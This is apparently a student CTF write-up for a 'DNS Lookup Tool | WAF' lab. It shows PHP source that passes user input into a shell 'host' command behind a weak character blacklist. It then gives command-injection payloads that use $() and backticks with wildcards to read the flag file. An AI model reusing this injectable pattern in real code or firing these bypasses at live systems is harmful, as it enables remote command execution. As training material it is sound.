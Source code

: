 # Simple Web 0x10(Lab - DNS Lookup Tool | WAF)
###### tags: `NTUSTWS` `CTF` `Web`

## Background
[2022/03/30 網頁安全](https://youtu.be/7b8uMzpCfug?t=3612)
[Command injection](https://lab.feifei.tw/practice/ci/l1.php)

## Source code
:::spoiler code
```php=
 <?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DNS Lookup Tool | WAF</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
</head>

<body>
    <section class="section">
        <div class="container">
            <div class="column is-6 is-offset-3 has-text-centered">
                <div class="box">
                    <h1 class="title">DNS Lookup Tool 🔍 | WAF Edition</h1>
                    <form method="POST">
                        <div class="field">
                            <div class="control">
                                <input class="input" type="text" name="name" placeholder="example.com" id="hostname" value="<?= $_POST['name'] ?? '' ?>">
                            </div>
                        </div>
                        <button class="button is-block is-info is-fullwidth">
                            Lookup!
                        </button>
                    </form>
                    <br>
                    <?php if (isset($_POST['name'])) : ?>
                        <section class="has-text-left">
                            <p>Lookup result:</p>
                            <pre>
                            <?php
                            $blacklist = ['|', '&', ';', '>', '<', "\n", 'flag'];
                            $is_input_safe = true;
                            foreach ($blacklist as $bad_word)
                                if (strstr($_POST['name'], $bad_word) !== false) $is_input_safe = false;

                            if ($is_input_safe)
                                system("host '" . $_POST['name'] . "';");
                            else
                                echo "HACKER!!!";
                            ?>
                            </pre>
                        </section>
                    <?php endif; ?>
                    <hr>
                    <a href="/?source">Source Code</a>
                </div>
            </div>
        </div>
    </section>
</body>

</html> 
```
:::
It set some protection such as blacklist.

## Exploit
Use <font color="FF0000">**`$`** or **\`**</font> string to bypass blacklist
Payload: 
`'$(cat /fla*)'`
`'`cat /fl\*g\*`'`


Flag: FLAG{Y0U_$(Byp4ssed)\_th3\_\`waf\`}
## Reference